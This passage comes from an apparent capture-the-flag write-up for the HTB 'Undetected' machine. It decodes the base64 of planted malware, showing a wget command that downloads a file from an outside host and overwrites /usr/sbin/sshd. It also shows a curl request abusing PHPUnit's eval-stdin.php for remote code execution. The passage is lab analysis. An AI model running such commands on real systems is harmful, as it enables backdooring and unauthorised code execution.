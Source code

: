 ## Base64 Decode

Copying that out and decoding we find something interesting:

```sh
┌──(root💀kali)-[~/htb/undetected]
└─# echo "d2dldCBzaGFyZWZpbGVzLnh5ei9pbWFnZS5qcGVnIC1PIC91c3Ivc2Jpbi9zc2hkOyB0b3VjaCAtZCBgZGF0 ZSArJVktJW0tJWQgLXIgL3Vzci9zYmluL2EyZW5tb2RgIC91c3Ivc2Jpbi9zc2hk" | base64 -d

wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd; touch -d `datbase64: invalid input
```

It seems to be writing a picture out as the sshd daemon in sbin. Why would that be happening?

## Suspicious sshd File

Let's grab that sshd file and have a look at it on Kali:

```sh
┌──(root💀kali)-[~/htb/undetected]
└─# curl --data "<?php system('cat /usr/sbin/sshd');" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php --output sshd

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 3559k    0 3559k  100    35  2749k     27  0:00:01  0:00:01 --:--:-- 2748k
```

Executing the file shows us it looks to be a normal sshd binary:

```sh
┌──(root💀kali)-[~/htb/undetected]
└─# ./sshd --help
unknown option -- -
OpenSSH_8.2p1, OpenSSL 1.1.1m  14 Dec 2021
usage: sshd [-46DdeiqTt] [-C connection_spec] [-c host_cert_file]
            [-E log_file] [-f config_file] [-g login_grace_time]
            [-h host_key_file] [-o option] [-p port] [-u len]
```

Version 8.2 was released on 14th Feb 2020, but I didn't find any easy vulnerabilities to try and exploit.

## Reversing With Ghidra Again

After importing this binary in to Ghidra and have a look I found something interesting:
